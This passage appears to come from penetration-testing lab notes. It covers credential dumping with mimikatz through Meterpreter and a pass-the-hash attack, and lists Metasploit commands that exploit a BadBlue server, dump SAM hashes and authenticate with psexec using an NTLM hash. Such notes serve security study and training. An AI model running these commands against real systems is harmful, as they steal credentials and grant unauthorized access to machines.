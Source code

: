 ```bash
meterpreter> cd Temp
meterpreter> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
meterpreter> shell

C:\Temp> dir
C:\Temp> .\mimikatz.exe

mimikatz> lsadump::sam
mimikatz> lsadump::secrets
mimikatz> sekurlsa::logonpasswords
```

### Pass-The-Hash attack

#### Description

* Pass-the-hash is an exploitation technique that involves capturing or havesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.
* We can use multiple tools to facilitate a Pass-The-Hash attack :
  * Metasploit PsExec module
  * Crackmapexec
* This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation.

#### Demo

<figure><img src="../../.gitbook/assets/59.png" alt=""><figcaption></figcaption></figure>

```bash
john@attack> msfconsole

msf6> use windows/http/badblue_passthru
msf6> set rhosts 10.3.21.247
msf6> set lport 4444
msf6> run

meterpreter> pgrep lsass
meterpreter> migrate 772
meterpreter> getuid  # NT AUTHORITY\SYSTEM

meterpreter> load kiwi
meterpreter> lsa_dump_sam
meterpreter> hashdump
# Ctrl+Z for background
```

**First method : PsExec**

```
msf6> use exploit/windows/smb/psexec
msf6> set rhosts 10.3.21.247
msf6> sessions
msf6> set lport 4422
msf6> set SMBUser Administrator
msf6> set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d  # LM:NTLM
msf6> run
```

